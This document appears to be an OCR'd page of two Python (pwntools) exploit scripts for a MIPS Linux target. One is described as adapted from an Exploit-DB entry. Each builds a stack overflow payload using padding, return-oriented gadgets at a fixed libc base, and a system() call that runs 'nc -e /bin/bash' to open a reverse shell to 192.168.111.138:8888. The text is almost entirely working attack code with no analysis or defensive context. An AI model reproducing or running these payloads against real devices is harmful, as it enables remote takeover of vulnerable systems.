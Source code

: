 

exp

```python
from pwn import *
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
cmd = b'nc -e /bin/bash 192.168.111.138 8888'
 
libc_base = 0x77f34000
system_addr_1 = 0x53200 - 1
gadget1 = 0x32A98
gadget2 = 0x169C4
#.text:000169C4                 addiu   $s2, $sp, 0x170+var_158//0x18
#.text:000169C8                 move    $a2, $v1
#.text:000169CC                 move    $t9, $s0
#.text:000169D0                 jalr    $t9 ; mempcpy
#.text:000169D4                 move    $a0, $s2

payload = b'a'*973 							# 1009-4*9
payload += p32(libc_base + system_addr_1) 	# s0  system_addr- 1
payload += p32(libc_base + gadget2) 		# s1  
payload += b'a'*(4*7)
payload += p32(libc_base + gadget1) 		# ra  addiu $s0, 1 ; jalr $s1
payload += b'a'*0x18
payload += cmd
 
fd = open("test", "wb")
fd.write(payload)
fd.close()
```

exp2:

这个就是https://www.exploit-db.com/exploits/33863改的

```python
from pwn import *
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
cmd = b'nc -e /bin/bash 192.168.111.138 8888'
 
libc_base = 0x77f34000
system_addr_1 = 0x53200 - 1
gadget1 = 0x00158C8
#.text:000158C8                 move    $t9, $s5
#.text:000158CC                 jalr    $t9
#.text:000158D0                 addiu   $s0, 1
gadget2 = 0x000159CC
#.text:000159CC                 addiu   $s5, $sp, 0x14C+var_13C
# ......
#.text:000159D8                 move    $t9, $s0
#.text:000159DC                 jalr    $t9 ; mempcpy
#.text:000159E0                 move    $a0, $s5

payload = b'a'*973 							# 1009-4*9
payload += p32(libc_base + system_addr_1) 	# s0  system_addr- 1
payload +=b'a'*(4*4)						# $s1 - $s4
payload += p32(libc_base + gadget2) 		# s5
payload +=b'a'*(4*3)					# $s6 - $fp
payload += p32(libc_base + gadget1) 		# ra  move $t9, $s5 ; jalr $s5;addiu $s0, 1
payload += b'a'*0x10
payload += cmd
 
fd = open("test", "wb")
fd.write(payload)
```